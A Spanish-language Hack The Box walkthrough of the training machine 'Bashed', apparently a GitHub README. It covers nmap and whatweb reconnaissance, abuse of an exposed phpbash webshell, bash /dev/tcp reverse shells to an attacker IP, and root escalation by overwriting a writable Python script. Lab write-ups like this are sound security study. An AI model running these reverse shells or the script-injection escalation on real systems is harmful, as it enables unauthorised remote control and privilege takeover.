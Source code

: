 # 🧰 Hack The Box — Bashed

- **IP:** 10.10.10.68  
- **Nivel:** Fácil  
- **Sistema operativo:** Linux  
- **Categoría:** Web, Escalada de Privilegios  
- **Flag user:** ✅  
- **Flag root:** ✅  

---

## 🧾 Información general

Bashed es una máquina Linux de nivel básico en Hack The Box. En este reto, un desarrollador dejó un archivo *webshell* accesible en el servidor, permitiendo acceso como `www-data`. A partir de ahí, se escalaron privilegios aprovechando configuraciones incorrectas hasta conseguir acceso como `root`.

---

## 🔍 Fase 1: Reconocimiento

### WhatWeb

```bash
whatweb http://10.10.10.68
```

![WhatWeb Scan](./images/whatweb.png)

#### Resultados:
- Servidor web: Apache 2.4.18 sobre Ubuntu
- Soporte para PHP detectado
- Página principal estática → Posibles rutas ocultas

---

## 🚪 Fase 2: Escaneo y enumeración

### Escaneo Nmap

```bash
nmap -sCV 10.10.10.68
```

#### Parámetros:
- `-sC`: scripts por defecto
- `-sV`: detección de versiones

![Nmap Scan -sCV](./images/nmap-scv.png)
  
#### Resultado:
- Puerto **80/tcp** abierto → Apache 2.4.18


### Enumeración web con script

```bash
nmap --script http-enum -p80 10.10.10.68
```

![HTTP Enum](./images/http-enum.png)

#### Resultados:
- Directorio **/dev/** descubierto
- Contenido del directorio: `phpbash.php` → Shell web funcional

---

## 💥 Fase 3: Explotación

Se utilizó el archivo `phpbash.php` para lanzar una **reverse shell**:

### Reverse shell

Desde `phpbash.php`:

```bash
bash -c "bash -i >%26 /dev/tcp/10.10.14.22/4444 0>%261"
```

![phpbash reverse shell](./images/phpbash-shell.png)

En el atacante:

```bash
nc -lvnp 4444
```

![Shell www-data](./images/www-data-shell.png)


##### Resultado:
- Shell obtenida como `www-data`.

### Estabilizar shell

```bash
script /dev/null -c bash
```

![Shell estabilizada](./images/stable-shell.png)


---

## ⬆️ Fase 4: Escalada de privilegios

### Verificar permisos sudo

```bash
sudo -l
```

![sudo -l](./images/sudo-l.png)

##### Resultado:
- `www-data` puede ejecutar comandos como scriptmanager sin contraseña.

### Cambiar a scriptmanager

```bash
sudo -u scriptmanager /bin/bash
```

![Cambio a scriptmanager](./images/scriptmanager-shell.png)

### Buscar archivos con permisos

```bash
find / -user scriptmanager 2>/dev/null | grep -v "proc"
```

![find test.py](./images/find-testpy.png)

##### Resultado:
- Archivo `/scripts/test.py` con permisos de escritura.

### Inyectar Reverse Shell en `test.py`

```bash
echo "import os; os.system('bash -c \"bash -i >& /dev/tcp/10.10.14.22/4445 0>&1\"')" > /scripts/test.py
```

Desde el atacante:

```bash
nc -lvnp 4445
```

![Root shell](./images/root-shell.png)

##### Resultado:
- Shell obtenida como `root`.

---

## 🏁 Fase 5: Post-explotación

### Flags

```bash
cat /home/arrexel/user.txt
```

![Flag user](./images/flag-user.png)

```bash
cat /root/root.txt
```

![Flag root](./images/flag-root.png)
